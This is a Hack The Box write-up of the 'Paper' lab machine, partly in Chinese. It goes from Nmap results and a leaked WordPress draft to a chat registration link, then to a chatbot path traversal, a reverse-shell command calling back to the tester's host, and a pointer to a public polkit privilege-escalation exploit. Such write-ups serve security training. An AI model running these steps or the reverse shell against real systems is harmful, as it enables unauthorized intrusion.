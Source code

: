```yaml
---
title: Hack The Box - Paper(Easy)
date: 2022-02-17
tags:
  - htb
  - pentest
category: htb
password: CVE-2021-3560
---
```


# Hack The Box - Paper(Easy)

## Information

Nmap结果

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-17 14:31 CST
Nmap scan report for bogon (10.10.11.143)
Host is up (0.13s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.29 seconds
```

## Steps

### X-Backend-Server

Curl有个奇怪的头

```
> GET / HTTP/1.1
> Host: 10.10.11.143
> User-Agent: curl/7.80.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 403 Forbidden
< Date: Thu, 17 Feb 2022 06:43:52 GMT
< Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
< X-Backend-Server: office.paper
< Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
< ETag: "30c0b-5c5c7fdeec240"
< Accept-Ranges: bytes
< Content-Length: 199691
< Content-Type: text/html; charset=UTF-8
<
```

修改hosts让`office.paper`解析到`10.10.11.143`

是个wordpress

### Wordpress

wpscan

找到 `CVE-2019-17671`

访问`http://office.paper/?static=1`

```
test

Micheal please remove the secret from drafts for gods sake!

Hello employees of Blunder Tiffin,

Due to the orders from higher officials, every employee who were added to this blog is removed and they are migrated to our new chat system.

So, I kindly request you all to take your discussions from the public blog to a more private chat system.

-Nick

# Warning for Michael

Michael, you have to stop putting secrets in the drafts. It is a huge security issue and you have to stop doing it. -Nick

Threat Level Midnight

A MOTION PICTURE SCREENPLAY,
WRITTEN AND DIRECTED BY
MICHAEL SCOTT

[INT:DAY]

Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….

# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.

# Also, stop looking at my drafts. Jeez!
```

### Chat

修改hosts访问`chat.office.paper`

注册，登录，找到机器人

发送`recyclops help`

获得帮助

![image-20220217152039907](https://cdn.yoshino-s.xyz/typora_img/image-20220217152039907.png)

```
recyclops file ../hubot/scripts/run.js
```

```
// Description:
// Runs a command on hubot
// TOTAL VIOLATION of any and all security!
//
// Commands:
// hubot run <command> - runs a command on hubot host

module.exports = function(robot) {
robot.respond("/RUN (.*)$/i", function(msg) {
console.log(msg);
var cmd = msg.match[1];
msg.send("Running " + cmd);
var exec = require('child_process').exec;
exec(cmd, function(error, stdout, stderr) {
if (error) {
msg.send(error);
msg.send(stderr);
} else {
msg.send(stdout);
}
});
});
};
```

所以发送

```
cmd bash -i >& /dev/tcp/10.10.14.5/7788 0>&1run ls
```

![image-20220217163500031](https://cdn.yoshino-s.xyz/typora_img/image-20220217163500031.png)

找到作者自己写的提权脚本

https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation

多跑几次就行了